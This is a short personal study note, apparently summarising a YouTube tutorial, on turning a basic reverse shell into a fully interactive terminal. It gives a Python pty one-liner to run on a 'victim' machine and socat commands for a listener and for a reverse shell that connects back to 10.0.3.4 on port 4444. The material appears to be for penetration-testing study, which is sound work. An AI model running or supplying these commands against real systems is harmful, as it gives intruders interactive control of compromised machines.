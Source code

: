 # Upgrade a Dumb Reverse Shell into a Fully Functional Terminal Tutorial
Type : #t/YouTube
Time Created : 2022-06-06 19:34
Last Modified : 2022-06-06 19:34
Subjects: #s/Cybersecurity 
Progress: #p/🟡 
URL: https://www.youtube.com/watch?v=vOEO_6xfsdo
Publisher: #psh/NullByte
Priority: #i/🟧 

## Python PTY
First you have to create a reverse shell, after that you need to look if there's a python in the victim's computer you need to type `python -c 'import pty; pty.spawn("/bin/sh")'`
this will recreate the shell to be more fictional.
[PTY Documentations](https://docs.python.org/3/library/pty.html)

## Socat
like Netcat on steroids.
Listening :
```bash 
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
Lunching:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
